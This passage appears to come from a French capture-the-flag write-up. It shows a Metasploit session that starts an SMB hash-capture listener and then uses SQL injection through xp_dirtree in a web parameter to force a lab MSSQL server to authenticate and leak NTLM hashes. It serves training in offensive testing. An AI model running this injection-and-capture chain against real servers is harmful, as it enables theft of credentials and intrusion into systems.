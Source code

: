 On va pour cela mettre d'abord en écoute (et en background) notre port 445 via le module *capture/smb* puis ensuite exécuter le module *stealer* pour provoquer l'utilisation de *xp\_dirtree* sur notre faux partage SMB :  

```plain
msf auxiliary(server/capture/smb) > show options

Module options (auxiliary/server/capture/smb):

   Name        Current Setting   Required  Description
   ----        ---------------   --------  -----------
   CAINPWFILE                    no        The local filename to store the hashes in Cain&Abel format
   CHALLENGE   1122334455667788  yes       The 8 byte server challenge
   JOHNPWFILE  /tmp/yolo         no        The prefix to the local filename to store the hashes in John format
   SRVHOST     10.10.12.177      yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT     445               yes       The local port to listen on.

Auxiliary action:

   Name     Description
   ----     -----------
   Sniffer

msf auxiliary(server/capture/smb) > exploit -j
[*] Auxiliary module running as background job 0.

[*] Server started.
msf auxiliary(server/capture/smb) > use auxiliary/admin/mssql/mssql_ntlm_stealer_sqli
msf auxiliary(admin/mssql/mssql_ntlm_stealer_sqli) > show options

Module options (auxiliary/admin/mssql/mssql_ntlm_stealer_sqli):

   Name      Current Setting                                     Required  Description
   ----      ---------------                                     --------  -----------
   COOKIE                                                        no        Cookie value
   DATA                                                          no        POST data, if necessary, with [SQLi] indicating the injection
   GET_PATH  /mvc/Product.aspx?ProductSubCategoryId=2;[SQLi];--  yes       The complete path with [SQLi] indicating the injection
   METHOD    GET                                                 yes       GET or POST
   Proxies                                                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST     10.10.10.104                                        yes       The target address
   RPORT     80                                                  yes       The target port (TCP)
   SMBPROXY  10.10.12.177                                        yes       IP of SMB proxy or sniffer.
   SSL       false                                               no        Negotiate SSL/TLS for outgoing connections
   VHOST                                                         no        HTTP server virtual host

msf auxiliary(admin/mssql/mssql_ntlm_stealer_sqli) > exploit -j
[*] Auxiliary module running as background job 1.

[*] DONT FORGET to run a SMB capture or relay module!
[*] Attempting to force backend DB to authenticate to the 10.10.12.177
```
